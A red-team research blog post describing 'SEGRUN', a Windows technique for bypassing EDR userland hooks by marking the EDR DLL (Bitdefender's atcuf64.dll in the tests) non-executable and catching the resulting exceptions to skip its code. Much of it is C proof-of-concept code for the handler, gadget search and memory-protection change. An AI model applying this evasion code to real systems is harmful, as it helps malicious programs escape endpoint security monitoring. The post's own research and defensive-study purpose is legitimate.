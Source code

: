 ```yaml
---
layout: post
title: "SEGRUN: Userland unhooking abusing exception handlers"
categories: research
tags: redteam
date: 2024-11-26 18:49:00 -0600
author: ikerl
---
```


Inspired by the DEFCON 31 talk in Las Vegas, delivered by Carlos Polop and Yago, I decided to explore a concept from their presentation to develop a new technique. This method, largely unfamiliar to me before, enables patching function hooks at the userland level used by AV/EDR systems, helping to evade detection by endpoint protection solutions.

## The Inspiration

The original DEFCON talk, [Exploring Linux Memory Manipulation for Stealth and Evasion](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Carlos%20Polop%20Yago%20Gutierrez%20-%20Exploring%20Linux%20Memory%20Manipulation%20for%20Stealth%20and%20Evasion%20Strategies%20to%20bypass%20Read-Only%20No-Exec%20and%20Distroless%20Environments.pdf), introduced an innovative technique for code execution in distroless environments, where everything typically runs in read-only mode and code execution is restricted. The talk showcased the [memdlopen](https://github.com/arget13/memdlopen) tool, which uses Linux signal handlers to intercept functions called by `dlopen`, enabling libraries to be loaded directly from memory instead of disk.

## The Idea

As a red team operator, I came up with the idea of using a similar `memdlopen` approach to unhook EDR trampolines in userland. While I cannot confirm if this technique is entirely new, I had not encountered it before.

EDRs commonly load a monitoring DLL into the processes they analyze. These DLLs modify system DLLs in memory, inserting trampolines that intercept calls to specific Windows API functions before execution. The trampolines redirect the execution flow of these monitored API functions to the EDR DLL, granting security systems deep visibility and control over program execution. By patching these trampolines, an attacker can bypass the EDR’s monitoring mechanisms, significantly complicating the detection and analysis of the targeted process.

Inspired by the `memdlopen` concept of using handlers to intercept exceptions, I developed a novel technique to evade userland hooks in Windows environments. This approach involves defining an exception handler and corrupting the EDR DLL to trigger controllable exceptions whenever the program accesses the monitoring code in that DLL.

## PoC

In this section, we list the steps required to apply this technique in detail.

### Defining the Exception Handler

The core of this method involves setting up an exception handler to manage all exceptions triggered during execution. When an exception occurs, the handler performs the following actions:

1. ROP to the `ret` function: The handler redirects the flow to a function that executes a simple `ret` instruction. This causes the program to return to the address where the exception was triggered, but with the instruction pointer (rip) incremented by one.

2. Resuming Execution: By performing this ROP, the program bypasses the exception and continues execution as if the interruption had not occurred, allowing the program to pass through the non-executable memory region (the EDR DLL) without actually executing any of its code.

This technique ensures that the EDR's monitoring hooks are bypassed while the normal operation of the target process continues without disruption.

Here is the implementation of the exception handler designed to manage exceptions that occur when the program attempts to execute memory mappings from the EDR DLL:

```c
LONG WINAPI TopLevelExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo)
{
    DWORD_PTR ret_address = searchRetGadget(ret);
    if (ret_address == NULL)
    {
        exit(1);
    }

    DWORD exceptionCode = pExceptionInfo->ExceptionRecord->ExceptionCode;

    switch (exceptionCode) {
    case EXCEPTION_ACCESS_VIOLATION:
        printf("Access Violation Exception\n");
        break;
    case EXCEPTION_BREAKPOINT:
        printf("Breakpoint Exception\n");
        break;
    case EXCEPTION_INVALID_HANDLE:
        printf( "Invalid Handle Exception\n");
        break;
    default:
        printf("Unknown Exception\n");
        break;
    }

    CONTEXT* context = pExceptionInfo->ContextRecord;
    printf("Exception at: 0x%p\n", (void*)context->Rip);
    context->Rip = ret_address;
    SetThreadContext(GetCurrentThread(),context);
    return EXCEPTION_CONTINUE_EXECUTION;
}
```

### "ret" function definition

When an exception is handled, the exception handler performs a ROP to the `ret` function. This function executes the ret instruction in assembly, causing the program to return to the address where the exception occurred.

By doing this, the program traverses the memory section of the EDR DLL without ever executing any of its instructions. This ensures that the EDR’s monitoring code is effectively bypassed without interrupting the program's flow.

Below are the functions: one that performs the `ret` operation and another that searches memory for this function to execute the ROP after each exception is handled:

```c
void ret()
{
    return;
}

DWORD_PTR searchRetGadget(void (*func)()) {
    unsigned char* ptr = (unsigned char*)func;
    size_t len = 128;

    for (size_t i = 0; i < len; ++i)
    {
        if (ptr[i] == 0xc3) return (DWORD_PTR)&ptr[i];
    }

    return NULL;
}
```

### Corrupting the EDR DLL

With the exception handler implemented, the next step is to corrupt the EDR DLL. This ensures that whenever the program encounters a trampoline and execution is redirected to the EDR’s function analyzer, a segmentation fault (segfault) is triggered.

There are several ways to achieve this:

- Modify memory permissions: Change the permissions of the memory where the EDR DLL is loaded.
- Overwrite memory contents: Configure the DLL’s memory as writable and use any function capable of overwriting that region with null bytes.

In my case, I used `VirtualProtect` to mark the EDR DLL’s memory region as non-executable. The tests were conducted using the `atcuf64.dll` DLL from Bitdefender:

```c
    SetUnhandledExceptionFilter(TopLevelExceptionHandler);

    HMODULE hmodule = GetModuleHandleA("atcuf64.dll"); 
    printf("Module => %p\n", hmodule);
    DWORD textSize = NULL;
    HMODULE textAddress = NULL;
    if (hmodule != NULL)
    {
        
        IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)hmodule;
        IMAGE_NT_HEADERS* ntHeader = (IMAGE_NT_HEADERS*)((BYTE*)hmodule + dosHeader->e_lfanew);

        IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);
        for (int i = 0; i < ntHeader->FileHeader.NumberOfSections; ++i) {
            //printf("%s\n", sectionHeader[i].Name);
            if (strcmp((char*)sectionHeader[i].Name, ".text") == 0) {
                textAddress = hmodule +sectionHeader[i].VirtualAddress;
                textSize = sectionHeader[i].SizeOfRawData;
                printf(".text => 0x%p, size => %d\n", textAddress,textSize);
                break;
            }
        }
        
    }
    else {
        printf("modulehandle error\n");
        return -1;
    }

    if (!textAddress) {
        printf("Error calculating .text section\n");
        return -1;
    }
    
    DWORD old;
    VirtualProtect_t pVirtualProtect = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), (char*)"VirtualProtect");
    BOOL rv = pVirtualProtect(textAddress, (unsigned int)textSize - 1024 * 246, PAGE_READONLY, &old);
```

### How the Technique Works

At this stage, we have all the components needed to apply the technique and execute functions hooked by the EDR without the EDR detecting it.

Here’s how the program operates once the exception handler is set up, the EDR DLL’s memory is corrupted, and the necessary functions to perform the ROP to the `ret` gadget are implemented:

![](segrun1.png)

1. Hooked Function Execution: When a hooked function is called, the trampoline executes, redirecting the execution flow to the EDR DLL:

![](segrun2.png)

2. Triggered Exception: An exception is raised as this memory region is marked as non-executable:

![](segrun3.png)

3. Exception Handling and ROP: The exception handler manages the exception and performs the necessary ROP to the ret gadget. This process is repeated as many times as needed until the program successfully completes the call to the hooked function.

![](segrun4.png)

By leveraging this workflow, the technique ensures that the hooked function executes successfully without alerting the EDR or triggering its monitoring mechanisms. The complete PoC project can be found at the following link: https://github.com/ikerl/segrun
